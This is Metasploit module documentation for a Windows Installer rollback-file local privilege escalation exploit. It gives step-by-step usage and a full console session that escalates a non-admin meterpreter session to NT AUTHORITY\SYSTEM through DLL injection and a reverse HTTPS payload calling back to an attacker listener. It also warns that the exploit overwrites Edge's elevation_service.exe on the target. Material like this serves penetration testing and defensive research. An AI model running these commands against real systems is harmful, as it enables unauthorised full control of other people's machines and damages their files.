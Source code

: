 ## Vulnerable Application

On vulnerable versions of Windows, the Installer Service executes privileged file operations on 
the rollback file that is created in a standard user controlled directory. This behaviour can be 
triggered by failing installation the installation with a specific .msi file. The bug is abused
to redirect file creation into an arbitrary location in order to gain SYSTEM level privileges.
WARNING:
The elevation_service.exe (C:\Program Files (x86)\Microsoft\Edge\Application\*) on the target host
will be overwritten when the exploit runs.
This module has been tested against Windows 10 Pro x64.

## Options

## Verification Steps

1. Get a non-admin meterpreter session on Win10 x64
2. `use windows/local/installerfiletakeover`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 20H2 Build 10.0.19044 x64

```
msf6 exploit(windows/local/installerfiletakeover) > use windows/local/installerfiletakeover
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/local/installerfiletakeover) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(windows/local/installerfiletakeover) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/local/installerfiletakeover) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/installerfiletakeover) > show options

Module options (exploit/windows/local/installerfiletakeover):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.200.2.29      yes       The local listener hostname
   LPORT     8445             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf6 exploit(windows/local/installerfiletakeover) > exploit

[!] SESSION may not be compatible with this module (missing Meterpreter features: stdapi_sys_process_set_term_size)
[*] Started HTTPS reverse handler on https://10.200.2.29:8445
[*] Checking target...
[*] Target looks good... attempting the LPE exploit
[*] Launching C:\Windows\SysWOW64\msiexec.exe to host the DLL...
[+] Process 12692 launched.
[*] Reflectively injecting the DLL into 12692...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] https://10.200.2.29:8445 handling request from 10.200.2.11; (UUID: 7esul2h6) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 7 opened (10.200.2.29:8445 -> 127.0.0.1) at 2021-12-04 09:22:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
